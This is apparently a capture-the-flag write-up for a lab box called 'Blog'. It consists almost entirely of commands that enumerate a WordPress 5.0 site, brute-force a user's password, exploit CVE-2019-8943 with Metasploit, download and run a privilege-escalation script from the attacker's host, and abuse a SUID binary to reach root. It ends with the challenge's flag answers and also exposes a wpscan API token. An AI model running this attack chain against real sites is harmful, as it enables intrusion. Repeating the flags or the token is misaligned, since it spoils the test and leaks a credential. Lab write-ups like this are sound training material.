

# Blog



## Task 1 Blog

```bash
echo '10.10.191.254 blog.thm' | sudo tee -a /etc/hosts
nmap -n -sV -sC blog.thm
```

 

```bash
wpscan --url blog.thm -e u
wpscan --url blog.thm -e vt \
       --api-token dakoGZasmsRjcPTs7mfuWqv1dMwhcVoaHba8qnXyXjs
wpscan --url blog.thm --usernames kwheel \
       --passwords /usr/share/wordlists/rockyou.txt -t 64
```


```bash
msfconsole -q
msf > search CVE-2019-8943
msf > use 0
msf > set RHOST blog.thm
msf > set LHOST 10.6.9.176
msf > set USERNAME kwheel
msf > set PASSWORD cutiepie1
msf > run
```

 

```bash
meterpreter > search -d / -f user.txt
meterpreter > cat /home/bjoel/user.txt
```


```bash
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")'
wget http://10.6.9.176/suid3num.py -P /tmp
python /tmp/suid3num.py
```


```bash
ltrace /usr/sbin/checker
admin=1 /usr/sbin/checker
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
find / -type f -name user.txt 2>/dev/null
cat /media/usb/user.txt
```


#### root.txt


`9a0b2b618bef9bfa7ac28c1353d9f318`


#### user.txt


`c8421899aae571f7af486492b71a8ab7`


#### Where was user.txt found?


`/media/usb`


#### What CMS was Billy using?


`WordPress`


#### What version of the above CMS was being used?


`5.0`


## Xmind


